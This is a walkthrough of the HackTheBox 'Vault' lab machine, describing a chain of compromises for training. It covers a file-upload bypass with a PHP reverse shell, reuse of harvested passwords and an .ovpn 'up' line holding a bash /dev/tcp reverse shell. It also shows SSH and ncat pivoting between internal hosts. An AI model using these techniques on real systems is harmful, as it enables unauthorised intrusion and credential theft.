


## Vault HacktheBox Writeup
Another HTB machine to check out today it's Vault by nol0gz. 
```bash
# Nmap 7.70 scan initiated Wed Nov  7 19:19:53 2018 as: nmap -v -p- -sC -sV -oA allports 10.10.10.109
Increasing send delay for 10.10.10.109 from 0 to 5 due to 863 out of 2875 dropped probes since last increase.
Nmap scan report for 10.10.10.109
Host is up (0.18s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a6:9d:0f:7d:73:75:bb:a8:94:0a:b7:e3:fe:1f:24:f4 (RSA)
|   256 2c:7c:34:eb:3a:eb:04:03:ac:48:28:54:09:74:3d:27 (ECDSA)
|_  256 98:42:5f:ad:87:22:92:6d:72:e6:66:6c:82:c1:09:83 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nothing unusual so we start looking at the webserver, we get this message about a slowdaddy web interface and a client sparklays.
```html
<b>Welcome to the Slowdaddy web interface</b>
<p>
We specialise in providing financial orginisations with strong web and database solutions and we promise to keep your customers financial data safe.
<p>
We are proud to announce our first client: Sparklays
(Sparklays.com still under construction)
```


Nothing seems to be here in the root of the webserver but if we run dirsearch on the "sparklays" directory we can see a login form and another folder, /design. Checking the design.html in this directory we can see a changelogo.php that is some kind of image upload function.

```bash
[18:44:58] 200 -  615B  - /sparklays/admin.php
[18:46:17] 301 -  323B  - /sparklays/design  ->  http://10.10.10.109/sparklays/design/
[18:46:39] 200 -   16B  - /sparklays/login.php
```


We try doing the usual methods to upload a php file instead of a plain image and using a .php5 extension works, it gets saved in the /uploads folder and we can get a shell. We just keep it easy and use the pentest monkey reverse shell here.
```bash
$ nc -nlvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.109.
Ncat: Connection from 10.10.10.109:48876.
Linux ubuntu 4.13.0-45-generic #50~16.04.1-Ubuntu SMP Wed May 30 11:18:27 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 15:59:45 up 29 min,  0 users,  load average: 0.00, 0.04, 0.33
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
From here we can see a couple users alex and dave, dave has some intresting files in his home folder and some credentials.
```bash
$ ls -lah
total 20K
drwxr-xr-x  2 dave dave 4.0K Sep  3  2018 .
drwxr-xr-x 18 dave dave 4.0K Sep  3  2018 ..
-rw-rw-r--  1 alex alex   74 Jul 17  2018 Servers
-rw-rw-r--  1 alex alex   14 Jul 17  2018 key
-rw-rw-r--  1 alex alex   20 Jul 17  2018 ssh
$ cat *
DNS + Configurator - 192.168.122.4
Firewall - 192.168.122.5
The Vault - x
itscominghome
dave
Dav3therav3123
```
We can ssh in now with dave's password, Dav3therav3123, for a more stable shell. It looks like dave has some gpg keys in here also with a bunch of other junk in his /home.
```bash
dave@ubuntu:~/.gnupg$ ls -lah
total 36K
drwx------  3 dave dave 4.0K Sep  3  2018 .
drwxr-xr-x 18 dave dave 4.0K Sep  3  2018 ..
drwx------  2 dave dave 4.0K Jul 17  2018 private-keys-v1.d
-rw-------  1 dave dave 2.2K Jul 24  2018 pubring.gpg
-rw-------  1 dave dave 2.2K Jul 24  2018 pubring.gpg~
-rw-------  1 dave dave  600 Sep  3  2018 random_seed
-rw-------  1 dave dave 4.8K Jul 24  2018 secring.gpg
-rw-------  1 dave dave 1.3K Jul 24  2018 trustdb.gpg
```
Thinking back to the DNS and firewall hosts listed in the servers file from above, we can see .122 subnet gateway address listening in netstat. We could try to reverse forward those boxes back out or try and access them here from our dave shell. 

```bash
dave@ubuntu:~/.gnupg$ netstat -antp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:5902          0.0.0.0:*               LISTEN      -               
tcp        0      0 192.168.122.1:53        0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:5900          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:5901          0.0.0.0:*               LISTEN      -               
tcp        0    352 10.10.10.109:22         10.10.14.27:40374       ESTABLISHED -               
tcp        0      0 10.10.10.109:48876      10.10.14.27:443         ESTABLISHED -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 ::1:631                 :::*                    LISTEN      -               
tcp6       0      0 10.10.10.109:80         10.10.14.27:34142       ESTABLISHED -               
```
The DNS config machine does respond from here also on port 80 and ssh at least.
```bash
dave@ubuntu:~/.gnupg$ nc -nv 192.168.122.4 -z 22 80
Connection to 192.168.122.4 22 port [tcp/*] succeeded!
Connection to 192.168.122.4 80 port [tcp/*] succeeded!
```
Should be simple enough to forward that webserver back to our attacker box and check out whatever is running. We do a ```ssh dave@10.10.10.109 -L 80:192.168.122.4:80``` which just reverse forwards port 80 back to our machine then we can browse to it locally.



We click to modify DNS settings and its a dead broken link. If we try the other VPN option though, we get to a VPN configurator page that lets us update a .ovpn file then test it. 



If we check for files on this webserver, we can see a note that was left behind.
```bash
$ dirsearch.py -u 127.0.0.1 -e php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php | Threads: 50 | Wordlist size: 220521

Error Log: /root/git/dirsearch/logs/errors-19-09-12_21-39-15.log

Target: 127.0.0.1

[21:39:16] Starting: 
[21:39:16] 200 -  195B  - /
[21:39:21] 200 -   36B  - /notes
[21:43:10] 403 -  297B  - /server-status

Task Completed
```


```bash
$ curl -i 127.0.0.1/notes
HTTP/1.1 200 OK
Date: Fri, 13 Sep 2019 01:33:14 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Tue, 17 Jul 2018 09:48:18 GMT
ETag: "24-5712ed87c1c80"
Accept-Ranges: bytes
Content-Length: 36

chmod 123.ovpn and script.sh to 777
```
Then we see that 123.ovpn file is sitting right there also and it's more or less a bash one liner reverse shell getting sent back to the ubuntu machine. The file script.sh we can also read it just runs 123.ovpn as sudo.
```bash
# curl -i 127.0.0.1/123.ovpn
HTTP/1.1 200 OK
Date: Fri, 13 Sep 2019 01:42:16 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Sun, 02 Sep 2018 14:21:46 GMT
ETag: "79-574e4250e6860"
Accept-Ranges: bytes
Content-Length: 121

remote 192.168.122.1
dev tun
nobind
script-security 2
up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/2323 0>&1'"
```
If we just open a listener back on 122.1 the ubuntu machine and click the test VPN button can we get a shell from this box? Seems like we can.
```bash
dave@ubuntu:~/.gnupg$ nc -nlvp 2323
Listening on [0.0.0.0] (family 0, port 2323)
Connection from [192.168.122.4] port 2323 [tcp/*] accepted (family 2, sport 51184)
bash: cannot set terminal process group (1068): Inappropriate ioctl for device
bash: no job control in this shell
root@DNS:/var/www/html# id && uname -a
id && uname -a
uid=0(root) gid=0(root) groups=0(root)
Linux DNS 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:22:43 UTC 2018 i686 i686 i686 GNU/Linux
```
So we have a root shell on the DNS machine, what about the other firewall and the machine just marked "x"? Dave and Alex have accounts on this box as well, in the webserver we can see Dave's ssh creds for here and the user.txt file.
```bash
root@DNS:/var/www/DNS/desktop# ls -lah
ls -lah
total 12K
drwxrwxr-x 2 root root 4.0K Jul 17  2018 .
drwxrwxr-x 3 root root 4.0K Jul 17  2018 ..
-rw-rw-r-- 1 root root   19 Jul 17  2018 ssh
-rw-rw-r-- 1 root root    0 Jul 17  2018 user.txt
root@DNS:/var/www/DNS/desktop# cat ssh
cat ssh
dave
dav3gerous567
```
After that we see this interfaces file telling us about another subnet 192.168.5.0 with 122.5 the firewall box set as the gateway. 
```bash
root@DNS:/var/www/DNS# ls -lah
ls -lah
total 20K
drwxrwxr-x 3 root root 4.0K Jul 17  2018 .
drwxr-xr-x 4 root root 4.0K Jul 17  2018 ..
drwxrwxr-x 2 root root 4.0K Jul 17  2018 desktop
-rw-rw-r-- 1 root root  214 Jul 17  2018 interfaces
-rw-rw-r-- 1 root root   27 Jul 17  2018 visudo
root@DNS:/var/www/DNS# cat interfaces 
cat interfaces 
auto ens3
iface ens3 inet static
address 192.168.122.4
netmask 255.255.255.0
up route add -net 192.168.5.0 netmask 255.255.255.0 gw 192.168.122.5
up route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.28
root@DNS:/var/www/DNS# cat visudo
cat visudo
www-data ALL=NOPASSWD: ALL
```
We start checking around the machine for anything else that might be interesting, it looks like Dave is doing something weird here with this cron job and netcat that we see in the auth.log. What is it connecting to on 192.168.5.2 port 987? 
```bash
---snip---
Sep  2 15:07:20 DNS sudo: pam_unix(sudo:auth): auth could not identify password for [dave]                                  Sep  2 15:07:45 DNS sudo: pam_unix(sudo:auth): authentication failure; logname=dave uid=1001 euid=0 tty=/dev/pts/0 ruser=dave rhost=  user=dave
Sep  2 15:07:51 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/nmap 192.168.5.2 -Pn --source-port=4444 -f
Sep  2 15:07:51 DNS sudo: pam_unix(sudo:session): session opened for user root by dave(uid=0)                        
Sep  2 15:08:55 DNS sudo: pam_unix(sudo:session): session closed for user root                                       
Sep  2 15:09:01 DNS CRON[2459]: pam_unix(cron:session): session opened for user root by (uid=0)                      
Sep  2 15:09:01 DNS CRON[2459]: pam_unix(cron:session): session closed for user root                                 
Sep  2 15:10:20 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 1234 --sh-exec ncat 192.168.5.2 987 -p 53
Sep  2 15:10:20 DNS sudo: pam_unix(sudo:session): session opened for user root by dave(uid=0)                        
Sep  2 15:10:34 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 3333 --sh-exec ncat 192.168.5.2 987 -p 53
Sep  2 15:10:34 DNS sudo: pam_unix(sudo:session): session opened for user root by dave(uid=0)                           
Sep  2 15:13:43 DNS sudo: pam_unix(sudo:session): session closed for user root                                       
Sep  2 15:13:44 DNS sshd[2429]: Received disconnect from 192.168.122.1 port 60866:11: disconnected by user           
Sep  2 15:13:44 DNS sshd[2429]: Disconnected from 192.168.122.1 port 60866       
---snip---
```
If we just look at it with nc, we can see it's actually ssh running on that port 987.
```bash
root@DNS:/var/www/DNS# ncat 192.168.5.2 987 -p 53
ncat 192.168.5.2 987 -p 53
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.4

Protocol mismatch.
```
Interesting so let's try Dave's second password and see if we can ssh to it. The above command in auth.log is a listener on local port 1234 then forwards traffic to 192.168.5.2 987 over port 53 with ncat, let's just copy that syntax here and let it hang.
```bash
root@DNS:/var/www/html# /usr/bin/ncat -l 1234 --sh-exec 'ncat 192.168.5.2 987 -p 53'
```

In another shell on the DNS box we can now ssh to localhost 1234 with Dave's second password dav3gerous567. 
```bash
root@DNS:/var/www/html# ssh dave@127.0.0.1 -p 1234
ssh dave@127.0.0.1 -p 1234
dave@127.0.0.1's password: dav3gerous567

Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

96 packages can be updated.
49 updates are security updates.


Last login: Mon Sep  3 16:48:00 2018
dave@vault:~$ 
```
And we're on the vault machine as Dave now sick. We can see this root.txt.gpg file here, if we transfer it back to Dave's ubuntu machine that has his gpg keys maybe we can open it. 
```bash
dave@vault:~$ ls
ls
root.txt.gpg
dave@vault:~$ file root.txt.gpg
file root.txt.gpg
root.txt.gpg: PGP RSA encrypted session key - keyid: 10C678C7 31FEBD1 RSA (Encrypt or Sign) 4096b .
```

Just make sure our listener on DNS is up and running 
```bash
root@DNS:/var/www/html# /usr/bin/ncat -l 1234 --sh-exec 'ncat 192.168.5.2 987 -p 4444'
```

Then we can SCP it back from vault to our first victim box and its all over. The last password we need to unlock the secret key for root.txt is "itscominghome" that we found back in dave's /home on this ubuntu machine.
```
dave@ubuntu:~$ scp -P 1234 dave@192.168.122.4:~/root.txt.gpg .
dave@192.168.122.4's password: 
root.txt.gpg                             100%  629     0.6KB/s   00:00    
dave@ubuntu:~$ gpg -d root.txt.gpg 

You need a passphrase to unlock the secret key for
user: "david <dave@david.com>"
4096-bit RSA key, ID D1EB1F03, created 2018-07-24 (main key ID 0FDFBFE4)

gpg: encrypted with 4096-bit RSA key, ID D1EB1F03, created 2018-07-24
      "david <dave@david.com>"
ca468370b91d1f5906e31093d9bfe819
dave@ubuntu:~$ 
```
Thanks for creating that nol0gz, had a lot of fun and a few a-hah moments with some of those steps and the port forwarding is always really cool to figure out with these machies. Most def one of the top two or three boxes I've done so far on HTB.


